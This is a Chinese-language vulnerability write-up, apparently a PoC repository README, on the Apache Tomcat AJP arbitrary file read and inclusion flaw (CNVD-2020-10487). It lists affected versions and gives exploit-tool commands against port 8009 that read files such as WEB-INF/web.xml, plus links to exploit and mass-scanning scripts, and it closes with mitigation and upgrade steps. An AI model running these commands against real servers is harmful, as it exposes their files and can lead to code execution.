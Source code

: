 # Tomcat被曝出文件包含漏洞或导致RCE  

2020.02.21-CNVD-2020-10487-Tomcat-Ajp-lfi  
## 漏洞描述  
Apache Tomcat是由Apache软件基金会属下Jakarta项目开发的Servlet容器.默认情况下,Apache Tomcat会开启AJP连接器,方便与其他Web服务器通过AJP协议进行交互.但Apache Tomcat在AJP协议的实现上存在漏洞,导致攻击者可以通过发送恶意的AJP请求,可以读取或者包含Web应用根目录下的任意文件,如果配合文件上传任意格式文件，将可能导致任意代码执行(RCE).该漏洞利用AJP服务端口实现攻击,未开启AJP服务对外不受漏洞影响（tomcat默认将AJP服务开启并绑定至0.0.0.0/0）  
## 影响范围  
Apache Tomcat = 6  
7 <= Apache Tomcat < 7.0.100  
8 <= Apache Tomcat < 8.5.51  
9 <= Apache Tomcat < 9.0.31  
  
## poc1  
1.参考链接（https://github.com/0nise/CVE-2020-1938）  
任意文件读取  
`java -jar 1.jar com.threedr3am.bug.tomcat.ajp.FileRead 127.0.0.1 8009 file /index.jsp`  
文件包含  
```java -jar 1.jar com.threedr3am.bug.tomcat.ajp.FileRead 127.0.0.1 8009 jsp /index.jsp```  
截图如下  
![漏洞截图](https://github.com/bmjoker/poc/blob/master/Tomcat/1.png)    
  
## poc2  
2.参考链接（https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi）  
任意文件读取
```py -2 CNVD-2020-10487-Tomcat-Ajp-lfi.py 127.0.0.1 -p 8009 -f WEB-INF/web.xml```  
![漏洞截图](https://github.com/bmjoker/poc/blob/master/Tomcat/2.png)  

于2020.03.02补充
网上出现了批量刷取AJP漏洞的脚本
参考链接：https://github.com/Kit4y/CNVD-2020-10487-Tomcat-Ajp-lfi-Scanner

# 漏洞修复：  
* 临时禁用AJP协议端口，在conf/server.xm l配置文件中注释掉```<Connector port="8009" protocol="AJP/1.3"redirectPort="8443" />```   
* 配置ajp配置中的secretRequired跟secret属性来限制认证  
* 官方下载最新版下载地址：  
https://tomcat.apache.org/download-70.cgi  
https://tomcat.apache.org/download-80.cgi  
https://tomcat.apache.org/download-90.cgi  
https://github.com/apache/tomcat/releases  
# Reference  
https://github.com/threedr3am/learnjavabug  
https://www.cnvd.org.cn/flaw/show/CNVD-2020-10487  
https://mp.weixin.qq.com/s/GzqLkwlIQi_i3AVIXn59FQ  
https://mp.weixin.qq.com/s/GMAR-KqcKPZyLe_D_WBdXA  
https://github.com/threedr3am/learnjavabug/blob/1f601a919605704e8e67b89213f233b82fa537c7/tomcat/ajp-bug/src/main/java/com/threedr3am/bug/tomcat/ajp/FileRead.java  
https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi/blob/8bd38f4cf22331ecf4e48096a78c5931509c26be/CNVD-2020-10487-Tomcat-Ajp-lfi.py

